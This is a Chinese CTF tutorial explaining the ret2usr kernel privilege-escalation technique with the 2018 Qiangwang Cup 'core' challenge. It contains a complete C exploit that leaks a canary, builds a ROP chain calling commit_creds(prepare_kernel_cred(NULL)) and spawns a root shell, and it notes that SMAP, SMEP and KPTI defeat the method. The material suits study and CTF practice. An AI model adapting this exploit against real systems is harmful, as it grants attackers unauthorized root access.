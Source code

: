 # ret2usr（已过时）

## 概述

**在【未】开启SMAP/SMEP保护的情况下**，用户空间无法访问内核空间的数据，但是内核空间可以访问/执行用户空间的数据，因此 `ret2usr` 这种攻击手法应运而生——通过 kernel ROP 以内核的 ring 0 权限执行用户空间的代码以完成提权。

通常 CTF 中的 ret2usr 还是以执行```commit_creds(prepare_kernel_cred(NULL))```进行提权为主要的攻击手法，不过相比起构造冗长的ROP chain，ret2usr 只需我们要提前在用户态程序构造好对应的函数指针、获取相应函数地址后直接 ret 回到用户空间执行即可。

✳ 对于开启了```SMAP/SMEP保护```的 kernel 而言，**内核空间尝试直接访问用户空间会引起 kernel panic**，我们将在下篇讲述其绕过方式。

## 例题：2018 强网杯 - core

具体的这里就不再重复分析了，由于其未开启 smap/smep 保护，故可以考虑在**用户地址空间中构造好对应的函数指针后直接 ret2usr 以提权**，我们只需要将代码稍加修改即可。

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define  IRETQ 0xffffffff813eb448

size_t commit_creds = NULL, prepare_kernel_cred = NULL;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void getRootPrivilige(void)
{
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

void getRootShell(void)
{   
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

void coreRead(int fd, char * buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void setOffValue(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

void coreCopyFunc(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

int main(int argc, char ** argv)
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
    saveStatus();

    int fd = open("/proc/core", 2);
    if(fd <0)
    {
        printf("\033[31m\033[1m[x] Failed to open the file: /proc/core !\033[0m\n");
        exit(-1);
    }

    //get the addr
    FILE* sym_table_fd = fopen("/tmp/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }

    size_t offset = commit_creds - 0xffffffff8109c8e0;

    // get the canary
    size_t canary;
    setOffValue(fd, 64);
    coreRead(fd, buf);
    canary = ((size_t *)buf)[0];

    //construct the ropchain
    size_t rop_chain[0x100], i = 0;
    for(; i < 10;i++)
        rop_chain[i] = canary;
    rop_chain[i++] = (size_t)getRootPrivilige;
    rop_chain[i++] = SWAPGS_POPFQ_RET + offset;
    rop_chain[i++] = 0;
    rop_chain[i++] = IRETQ + offset;
    rop_chain[i++] = (size_t)getRootShell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp;
    rop_chain[i++] = user_ss;

    write(fd, rop_chain, 0x800);
    coreCopyFunc(fd, 0xffffffffffff0000 | (0x100));
}
```
比较一下和常规 ROP 做法的异同。

1. 通过读取 `/tmp/kallsyms` 获取 `commit_creds` 和 `prepare_kernel_cred` 的方法相同，同时根据这些偏移能确定 gadget 的地址。
2. leak canary 的方法也相同，通过控制全局变量 `off` 读出 canary。
3. 与 kernel rop 做法不同的是 rop 链的构造
	1. kernel rop 通过 内核空间的 rop 链达到执行 `commit_creds(prepare_kernel_cred(0))` 以提权目的，之后通过 `swapgs; iretq` 等返回到用户态，执行用户空间的 `system("/bin/sh")` 获取 shell
	2. ret2usr 做法中，直接返回到用户空间构造的 `commit_creds(prepare_kernel_cred(0))` （通过函数指针实现）来提权，虽然这两个函数位于内核空间，但此时我们是 `ring 0` 特权，因此可以正常运行。之后也是通过 `swapgs; iretq` 返回到用户态来执行用户空间的 `system("/bin/sh")`

从这两种做法的比较可以体会出之所以要 `ret2usr`，是因为一般情况下在用户空间构造特定目的的代码要比在内核空间简单得多。

## KPTI 与 ret2usr

对于开启了 KPTI 的内核而言，内核页表的用户地址空间无执行权限，因此当内核尝试执行用户空间代码时，由于对应页顶级表项没有设置可执行位，因此会直接 panic，这意味着**实际上 ret2usr 已经是过去式了**。
